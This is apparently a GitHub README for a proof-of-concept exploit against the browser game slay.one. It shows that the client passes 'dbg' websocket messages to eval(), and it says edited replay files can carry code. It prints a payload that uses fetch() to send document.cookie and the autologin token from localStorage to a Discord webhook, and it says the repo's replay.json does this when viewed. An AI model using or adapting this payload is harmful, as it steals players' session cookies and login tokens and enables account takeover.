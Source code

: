 # dbg-expliot

### Introduction 
Slay.one is a top down pixel shooter on the web. Howeever, like many web apppilcations it can be vulerible to cross-site sripting attacks.

### PoC 
Within the slay.one client-bundle.js, the section of code that handles websocket messages from the server there is a few lines of code that put the user in jepordy. 

```javascript
else if ("dbg" === arr[0]) // dbg packet send from the server 
    try {
        eval(msg.substring(4)) // eval() can be used to execute code 
    } catch (e) {}
```

This can be explioted with slay.one's replay feature where users can download replays of thier games. However, replay's can be editted to execute malicous code on the brower.

As a proof of concept the replay.json file in the repo if viewed on slay.one will steal your cookies and send it to a discord webhook 

```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}{
    method: 
        'POST',headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({content: 'Stolen Cookies: ' 
    + document.cookie + 'Login' + localStorage.autologin})
});
```
